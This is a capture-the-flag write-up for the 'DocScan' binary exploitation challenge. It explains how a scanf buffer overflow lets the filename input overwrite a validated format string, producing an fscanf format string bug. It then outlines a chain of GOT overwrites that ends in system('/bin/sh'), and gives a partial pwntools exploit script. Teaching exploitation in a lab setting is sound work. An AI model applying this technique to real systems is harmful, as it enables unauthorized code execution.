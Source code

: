 # DocScan

**Category:** Binary Exploitation  
**Points:** 211  

---

## Challenge Description
We are given a binary called `docscan.bin`, a set of test files in `docs/`, and a `libc.so.6`. A `test.sh` script demonstrates usage.

```bash
rethier@kali:~$ tree --charset unicode
.
|-- Dockerfile
|-- docs
|   |-- chars.txt
|   |-- floats.txt
|   |-- ints.txt
|   `-- strs.txt
|-- docscan.bin
|-- libc.so.6
`-- test.sh
```

Running the program:

```bash
rethier@kali:~$ ./docscan.bin 
*** DocScan (v0.01) ***
Enter format: int
Enter quantity: 7
Enter filename: docs/ints.txt
Scanning...
 raw data: 0000000000000001
 raw data: 0000000000000064
 ...
Done! Scanned 7 items
```

---

## Vulnerability
Through reverse engineering we find:

- **Global data segment layout:**
  ```c
  FILE *fp;
  int count;
  char filename[32];
  char format[32];
  ```
- Both `filename` and `format` are read with `scanf("%s", ...)`, making them **vulnerable to buffer overflow**.
- Overflowing `filename` can overwrite `format` after it has been validated → leading to a **format string vulnerability** inside `fscanf()`.

**Key Insight:** By overflowing `filename` with controlled bytes, we can hijack the `format` string and weaponize it as a format string vuln.

---

## Exploitation Strategy
1. Use `/dev/stdin` (or `/proc/self/fd/0`) as the “file” so we can control the input stream.  
2. Abuse `fscanf()` with malicious format strings.  
3. Craft a **write-what-where primitive** by overwriting stack arguments.  
4. Redirect GOT entries (`exit`, `fclose`) to leak addresses and eventually call `system("/bin/sh")`.

---

## Exploit Code
```python
from pwn import *

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <local|remote> [host] [port]")
    exit(0)
elif sys.argv[1] == "local":
    p = process("./docscan.bin")
    e = p.elf
    l = e.libc
elif sys.argv[1] == "remote":
    p = remote(sys.argv[2], sys.argv[3])
    e = ELF("./docscan.bin")
    l = ELF("./libc.so.6")

writable = e.symbols['format']+0x20

# Stage 1: Leak a libc pointer
p.sendline(b"int")
p.sendline(b"3")
p.sendline(b"/proc/self/fd/0" + b"\0"*(32-15) + b"%11$lu%15$lu")
...
# Stage 2: Place "/bin/sh" and redirect fclose → system()
...
p.interactive()
```

---

## Flag
`MetaCTF{redacted}`  

---

## Takeaways
- Buffer overflows can chain into format string vulns.  
- `scanf()` family can be just as dangerous as `printf()` when misused.  
- GOT overwrites remain a powerful path to shell when RELRO is partial.  

